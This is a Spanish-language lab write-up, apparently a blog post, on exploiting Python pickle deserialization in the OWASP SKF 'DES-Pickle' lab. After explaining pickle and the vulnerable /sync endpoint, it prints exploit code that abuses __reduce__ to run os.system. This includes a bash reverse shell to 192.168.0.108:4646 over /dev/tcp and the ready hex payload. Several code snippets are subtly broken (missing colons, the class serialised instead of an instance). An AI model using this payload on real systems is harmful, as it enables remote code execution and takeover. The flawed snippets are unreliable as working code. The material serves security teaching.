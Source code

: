 ```yaml
---
title: "[Lab] Python (DES-Pickle)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, python, pickle]
---
```



# Python – Ataque de Deserialización Pickle (DES-Pickle)

### Más info:

- Links
    
    scaler - (”[https://www.scaler.com/topics/pickle-python/](https://www.scaler.com/topics/pickle-python/)”)
    

## Instalación

```bash
docker pull blabla1337/owasp-skf-lab:des-pickle
docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled.png)

# ¿Qué es pickle?

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 1.png)

*«Pickling»* es el proceso mediante el cual una jerarquía de objetos de Python se convierte en una secuencia de bytes, y el *«unpickling»* es la operación inversa, mediante la cual una secuencia de bytes de un archivo binario ([binary file](https://docs.python.org/es/3/glossary.html#term-binary-file)) o un objeto tipo binario ([bytes-like object](https://docs.python.org/es/3/glossary.html#term-bytes-like-object)) es convertido nuevamente en una jerarquía de objetos.

Para usar Pickle en Python, se debe importar su librería:

```bash
import pickle
```

## “pickle.dump()” y “pickle.load()”

Pickle provee dos funciones: “pickle.dump()” o “pickle.dumps()” y “pickle.load()” o “pickle.loads()” y a continuación se mostrará un ejemplo de cada una.

### pickle.dump()

**`pickle.dump()`**: Se usa para serializar un **objeto** y almacenar el output en un archivo.

```bash
# Se usa para especificar un archivo
pickle.dump(object, file, protocol=None, *, fix_imports=True,
 buffer_callback=None)
```

Ejemplo:

- Código
    
    ```bash
    import pickle
    
    dic = {
    	'name': 'bryan',
    	'age': 11,
    	'course': 'hack4u'
    }
    
    # Pickling the created dictionary
    with open('data.pickle', 'wb') as a:
    	pickle.dump(dic, a)
    ```
    

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 2.png)

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 3.png)

### pickle.dumps()

**`pickle.dumps()`**: Se usa para serializar un **objeto** y mostrar su resultado usando otro objeto.

```bash
# Se añade la "s" para especificar que se usará un string 
# en lugar de un archivo
pickle.dumps(obj, protocol = None, *, fix_imports = True, 
buffer_callback=None)
```

Ejemplo:

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 4.png)

### pickle.load()

**`pickle.load()`**: Se usa para leer un **archivo** serializado o “pickled” y verlo en su forma deserializada.

```bash
pickle.load(file, *, fix_imports=True, encoding='ASCII', 
errors='strict', buffers=None)
```

Ejemplo

- Código
    
    ```bash
    import pickle
    
    # Unpickling the created file
    with open('data.pickled', 'rb') as b:
    	unpickled = pickle.load(b)
    
    print(unpickled)
    ```
    

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 5.png)

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 6.png)

### pickle.loads()

**`pickle.loads()`**: Se usa para leer **objetos** serializados o “pickled” y mostrarlos en su forma deserializada.

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 7.png)

# Análisis de código

Ahora se analizará el archivo “DES-Pickle”:

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 8.png)

Por el método POST, se están tramitando datos en la ruta “/sync”.

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 9.png)

En la primer parte se está abriendo el archivo “pickle.hacker” con permisos de escritura. Se está tomando el valor que ingresó el usuario en el parámetro “data_obj” y lo almacena en la variable “att”, luego toma ese “att” el cual debe ser una cadena hexadecimal ya que se la función “bytes.fromhex” está buscando una cadena hexadecimal para convertirla en bytes y almacenar el output en la variable “attack”.

En la segunda parte, se está leyendo el mismo archivo “pickle.hacker” con permisos de lectura. Se está deserializando el contenido de “handler”, es decir, “pickle.hacker” y el resultado se almacena en la variable “a” y será mostrado al renderizar la página web.

## Explotación

Pickle cuenta con una función “__reduce__” la cual puede ser controlada, de forma que en el proceso de deserialización, se puede indicar qué acción se debe tomar a la hora de deserializarlo.

El siguiente código lo que hace es devolver unos datos serializados para enviarlos al servidor y este al deserializarlos, se le indica qué acción debe tomar, en este caso se quiere ejecutar un comando a nivel de sistema.

```bash
import pickle
import os
import binascii

 class Exploit(object):
	def __reduce__(self):
		return (os.system, ('id',))

if __name__ == '__main__'
	print(pickle.dumps(Exploit()))
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 10.png)

Al ejecutar este código, el resultado será la representación de la clase “Exploit()” serializada en bytes pero en este caso, como se vio anteriormente, la página web solo acepta cadenas hexadecimales y para esto es que se usa la librería “binascii”, para representar una cadena en hexadecimal:

```bash
import pickle
import os
import binascii

 class Exploit(object):
	def __reduce__(self):
		return (os.system, ('id',))

if __name__ == '__main__'
	print(binascii.hexlify(pickle.dumps(Exploit())))
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 11.png)

Al enviar esta cadena en hexadecimal al servidor, este un 0 pero no muestra el resultado del comando por lo que es posible que lo que está mostrando es el código de estado del comando ejecutado. En este caso, en lugar del comando “id”, se creará una reverse shell en la máquina local.

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 12.png)

Código para reverse shell

```bash
import pickle
import os
import binascii

class Exploit(object)
	def __reduce__(self):
		return (os.system, ('bash -c "bash -i >& /dev/tcp/192.168.0.108/4646 0>&1"',))

if __name__ == '__main__':
	print(binascii.hexlify(pickle.dumps(Exploit)))
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 13.png)

Cadena copiada:

```bash
80049550000000000000008c05706f736978948c0673797374656d9493948c3562617368202d63202262617368202d69203e26202f6465762f7463702f3139322e3136382e302e3130382f3436343620303e26312294859452942e
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Pickle Attack/Untitled 14.png)
